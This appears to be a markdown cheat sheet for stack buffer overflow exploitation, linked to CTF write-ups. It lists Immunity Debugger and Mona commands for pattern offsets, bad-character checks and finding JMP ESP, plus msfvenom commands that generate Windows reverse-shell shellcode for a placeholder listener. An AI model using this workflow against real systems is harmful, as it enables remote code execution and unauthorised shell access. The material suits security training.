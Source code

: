 # Buffer Overflow

## Immunity Debugger + Mona

- Set Mona Working Folder
```
!mona config -set workingfolder c:\mona\%p
```

- Generate pattern
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
!mona pattern_create 3000
```

- After crash, note EIP value then identity the offset:
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 31704330
[*] Exact match at offset 2012
```

- Compare memory with bytearray to find bad chars
```
!mona bytearray
!mona compare -a esp -f c:\path\to\bytearray.bin
```

- Find JMP ESP Address
```
!mona jmp -r exp
```

- Generate shellcode
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f c -b "\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -b "\x00" -f python EXITFUNC=thread
```

- Generate byte string
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

## Links
___
### Guides

### Writeups
- https://cd6629.gitbook.io/ctfwriteups/buffer-overflow-wlk/brainstorm-w
- https://noxious.tech/posts/Brainstorm/